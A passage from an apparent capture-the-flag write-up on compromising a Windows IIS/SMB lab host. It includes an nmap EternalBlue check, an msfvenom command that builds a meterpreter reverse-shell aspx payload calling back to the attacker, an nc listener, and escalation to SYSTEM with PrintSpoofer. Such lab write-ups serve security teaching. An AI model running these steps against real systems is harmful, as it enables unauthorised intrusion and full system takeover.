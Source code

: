 We can use these later for accessing other areas of the host.

### Outdated Services
The server is also vulnerable to `CVE-2017-0143`, also known as `EternalBlue`. Using `nmap` and `searchsploit` we can verify that the SMB server is on an exploitable version, which it is.

```bash
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143
| Risk factor: HIGH
| A critical remote code execution vulnerability exists in Microsoft SMBv1
| servers (ms17-010).
Indicates the server is vulnerable to EternalBlue. (ms17-010).
```

## Exploitation Phase [Approach 1] - User

### Reverse Shell Exploitation

The first step to take is to create a payload using `msfvenom` to get us a reverse shell.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=$MY_IP lport=4444 -f aspx -o shell.aspx
```

We choose the `.aspx` file extension as the web server we have access to is running IIS.

We then need to create a reverse shell listener (I opted to use `rlwrap nc -lvnp 4444` for my listener based on the script that I had modified).

Once we've got our listener ready, we can upload the payload to the target host via the SMB share we have and execute it by navigating to the exposed webpage on `https://$IP:49663/nt4wrksv/shell.aspx`.

This gives us the `IIS APPPOOL\DefaultAppPool` user account.

At this point, we can access the user share on the machine and get the first flag for the user: `cat c:/users/bob/desktop/user.txt`.

## Exploitation Phase [Approach 1] - Root

At this point we now have a user account to work with. If we run `systeminfo` we can see that the server is running on `Microsoft Windows Server 2016`. There is a vulnerability in these versions involving impersonation of the `NT/SYSTEM` user by abusing the fact you can create a process in the context of another user. I won't go into detail, but a very good write-up can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) on the process.

We now can upload the `PrintSpoofer.exe` to the share we have access to. Then, we can navigate to the `c:\inetpub\wwwroot\nt4wrksv` folder to locate the executable and run it while feeding in a `cmd.exe` argument: `PrintSpoofer.exe -i -c cmd.exe`

This will spawn a `cmd` shell with the `nt authority\system` user.
